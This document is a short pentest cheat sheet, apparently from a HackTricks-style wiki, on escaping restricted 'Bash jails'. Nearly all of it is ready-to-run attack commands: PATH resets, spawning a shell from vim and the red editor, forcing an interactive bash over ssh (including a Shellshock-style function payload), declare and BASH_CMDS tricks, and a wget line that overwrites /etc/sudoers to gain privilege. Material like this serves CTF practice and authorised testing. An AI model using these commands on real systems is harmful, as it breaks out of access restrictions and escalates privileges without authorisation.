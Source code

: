 # Bash Jails

## Bash Jails

### Enumeration

First enumerate the best you can:

```bash
echo $SHELL
echo $PATH
env
export
pwd
```

### Modify PATH

Check if you can modify the PATH env variable

```bash
echo $PATH 
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin 
echo /home/* 
```

### Using vim

```bash
:set shell=/bin/sh
:shell
```

### Create script

Check if you can create an executable file with _/bin/bash_ as content

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

### Get bash from SSH

If you are accessing via ssh you can use this trick to execute a bash shell:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

### Declare

```bash
declare -n PATH; export PATH=/bin;bash -i
 
BASH_CMDS[shell]=/bin/bash;shell -i
```

### Wget

You can overwrite for example sudoers file

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
